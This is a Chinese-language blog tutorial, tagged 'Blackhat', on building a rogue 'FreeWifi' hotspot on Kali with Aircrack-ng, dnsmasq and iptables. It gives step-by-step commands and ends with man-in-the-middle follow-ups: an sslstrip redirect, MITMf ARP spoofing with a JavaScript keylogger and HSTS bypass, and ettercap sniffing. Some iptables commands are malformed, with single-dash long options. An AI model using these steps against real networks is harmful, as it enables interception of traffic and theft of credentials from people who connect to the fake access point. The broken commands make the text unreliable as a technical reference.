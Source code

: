 ```yaml
---
title: Kali中使用Aircrack-ng和Dnsmasq工具创建伪AP热点
name: aircrack-dnsmasq-fake-ap
date: 2017-1-8
tags: [aircrack，dnsmasq]
categories: [Blackhat]
---
```



* 目录
{:toc}

## 1.必须工具
- Aircrack-ng
- Dnsmasq
- Wireless Adapter

**Aircrack-ng**：Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。Aircrack-ng可以工作在任何支持监听模式的无线网卡上并嗅探802.11a，802.11b，802.11g的数据。

**Dnsmasq**：DNSmasq是一个小巧且方便地用于配置DNS和DHCP的工具，适用于小型网络，它提供了DNS功能和可选择的DHCP功能。

**Wireless Adapter**：无线网卡，伪装AP热点无线一个无线网卡，建议使用外置的无线网卡。

## 2.查看无线网卡并启动监听
使用`airmon-ng`命令查看当前可用的无线网卡信息，如wlan0
使用`airmon-ng start [网卡名称]`启动无线网卡为监听模式，得到wlan0mon

## 3.创建无线AP热点
使用命令`airbase-ng -e [AP_NAME] -c [channel] wlan0mon`创建无线AP热点，如：
```shell
airbase-ng -e FreeWifi -c 6 wlan0mon
```
此时可以扫描到创建的无线热点，但是不能连接去。

## 4.创建虚拟网卡及网关
新打开一个终端，执行以下命令创建虚拟网卡及其路由配置
```shell
ifconfig at0 10.0.0.1/24 up
ifconfig at0 mtu 1400
route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
```

## 5.编辑Dnsmasq配置并启动
编辑 **dnsmasq** 配置文件`vi /etc/dnsmasq.conf`
```shell
interface=at0
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-dhcp
log-queries
```
启动 **dnsmasq** 服务
```
dnsmasq -C /etc/dnsmasq.conf -d
```

## 6.开启IP转发并设置IPTables转发规则
```shell
iptables -flush
echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -P FORWARD ACCEPT
iptables -append FORWARD -in-interface at0 ACCEPT

iptables -table -nat -append POSTROUTING -out-interface eth0 -j MASQUERADE
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

## 后续可以做什么？
```
iptables -t nat -A PREROUTING -p tcp -destination 80 -j REDIRECT -to-port 10000
sslstrip -f -p -k 10000

mitmf -i at0 --spoof --arp -gateway 10.0.0.1 --jskeylogger --hsts

ettercap -p -u -T -q -i at0
```
